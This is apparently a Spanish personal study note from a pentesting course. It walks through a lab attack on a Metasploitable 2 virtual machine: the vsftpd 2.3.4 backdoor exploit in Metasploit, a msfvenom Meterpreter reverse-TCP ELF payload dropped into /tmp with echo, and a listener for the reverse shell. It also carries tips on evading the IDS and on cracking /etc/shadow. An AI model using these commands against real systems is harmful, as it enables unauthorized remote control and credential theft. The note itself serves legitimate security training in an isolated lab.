

# Planteamiento
> [!EXAMPLE] Sea una máquina víctima
> Se plantea crear una [[Backdoor|Puerta Trasera]] por la que ejecutar [[Meterpreter]] sobre ella.
> 
> Para ello, se combinarán los pasos vistos en las notas:
> 1. [[Ejemplo de búsqueda de exploits]]
> 2. [[Ejemplo de APT con msfvenom]]

## Parámetros
Para este ejemplo, se parte con los siguientes datos.
- Máquina atacante: `192.168.56.1` -> Mi máquina local.
- Máquina víctima: `192.168.56.102` -> [[Máquina Virtual]] con [[Metasploitable 2]].
	-> Credenciales conocidas: `msfadmin:msfadmin` -> usuario y contraseña de `root`.

> [!IMPORTANT] Las máquinas están en la misma red.


# Ejecución
## 1 - Búsqueda de [[Exploit|Exploits]]
```msfconsole
search vsftpd 2.3.4
```

```msfconsole
set RHOSTS 192.168.56.102
```

```msfconsole
show payloads
```

![[Paso 1.png]]

## 2 - Elegir los [[Payload|Payloads]] compatibles
```msfconsole
show payloads
```

```msfconsole
set payload 0
```

```msfconsole
exploit
```

![[Paso 2.png]]
> [!TIP] Esto no deja rastro.

## 3 - Generar un [[APT]] con [[msfvenom]]
Correspondiente a lo que se vió en la nota [[Ejemplo de APT con msfvenom]].

```msfvenom
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=5000 -f elf > infectado2
```
![[Paso 3.png]]
> [!INFO] Cada escenario tiene una limitación
> - Tiempo de uso.
> - Tamaño de cadenas.
> - Solo texto (como este caso).
> - Solo admite [[PHP]], [[JavaScript]]...
> - . . .

> [!FAQ] ¿Qué se puede mandar en este punto?
> En este escenario, **solo texto**, por lo que envío esto para la víctima.
> 1. Se envía el texto (en este caso, **línea a línea**, por los `\n` del texto generado).
> 2. Se vuelca en un archivo `.elf`.
> 3. Se ejecuta.

> [!TIP] Se recomienda usar las **rutas completas** de los comandos
> Por ejemplo, para este caso sería `/usr/bin/base64`.

## 4 - Enviar el ejecutable infectado a la máquina víctima

```msfconsole
echo "<primera línea del archivo codificado>" > /tmp/infectado2
```

```msfconsole
echo "<resto de líneas del archivo codificado>" >> /tmp/infectado2
```
![[Paso 4.png]]
Ahora la máquina víctima cuenta con un fichero ejecutable infectado que, al ejecutarse, creará una conexión [[TCP]] con la máquina del atacante y recibirá de ella el [[Meterpreter]].

> [!TIP] Antes de que la víctima ejecute el archivo, el atacante debería haber hecho el paso siguiente para tener un puerto escuchando a la conexión.

## 5 - Esperar conexión de la [[Reverse Shell]] y ejecutar [[Meterpreter]]
![[Paso 5.png]]
> [!TIP] En este punto podría usarse [[John de Reaper]] con los resultados de `/etc/shadow`.

## Fin del [[Pentesting|test de intrusión]]
> [!DONE] Aquí termina el [[Pentesting|test de intrusión]]
> Una vez llegados a este último paso, ha quedado demostrado:
> - Se ha realizado un [[APT]].
> - El [[IDS]] no lo ha detectado.
>
> Se hace el informe, las presentaciones, presupuesto de [[Hardenning]] y de formación a los empleados de la empresa.


# Diagrama de la ejecución
Las consolas $A$, $B$ y $C$ corresponden a 3 terminales en la máquina atacante.
Se han dispuesto **desordenadas** para que las conexiones se visualicen mejor.

